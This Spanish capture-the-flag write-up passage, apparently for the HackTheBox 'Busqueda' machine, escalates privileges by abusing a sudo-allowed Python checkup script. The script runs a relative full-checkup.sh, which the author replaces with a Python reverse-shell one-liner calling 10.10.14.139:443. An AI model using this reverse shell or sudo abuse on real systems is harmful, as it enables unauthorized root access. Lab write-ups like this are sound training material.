 ```bash

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
svc@busqueda:~$ export TERM=xterm                              
svc@busqueda:~$ 
```

Si hacemos un `sudo -l` podemos correr como **root** sin proporcionar contraseña `python3` y podemos ejecutar ese `script` y pasarle un argumento

Si lo ejecutamos pasa esto 

```bash
svc@busqueda:~$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ 
```

Si vamos ala ruta vemos que hay mas `scripts`

```bash
svc@busqueda:/opt/scripts$ ls -la
total 28
drwxr-xr-x 3 root root 4096 Dec 24  2022 .
drwxr-xr-x 4 root root 4096 Mar  1 10:46 ..
drwxr-x--- 8 root root 4096 Apr  3 15:04 .git
-rwx--x--x 1 root root  586 Dec 24  2022 check-ports.py
-rwx--x--x 1 root root  857 Dec 24  2022 full-checkup.sh
-rwx--x--x 1 root root 3346 Dec 24  2022 install-flask.sh
-rwx--x--x 1 root root 1903 Dec 24  2022 system-checkup.py
svc@busqueda:/opt/scripts$ 
```

Vamos a crear el `script` `full-checkup.sh` pero en nuestro directorio personal y vamos a enviarnos una reverse shell para que cuando haga un `full-chekup` se ejecute nuestro `script` <https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/>

```bash
svc@busqueda:~$ touch full-checkup.sh
svc@busqueda:~$ nano full-checkup.sh 
svc@busqueda:~$ cat full-checkup.sh 
#!/usr/bin/python3
import socket,os,pty;s=socket.socket();s.connect(("10.10.14.139",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

svc@busqueda:~$ 
```
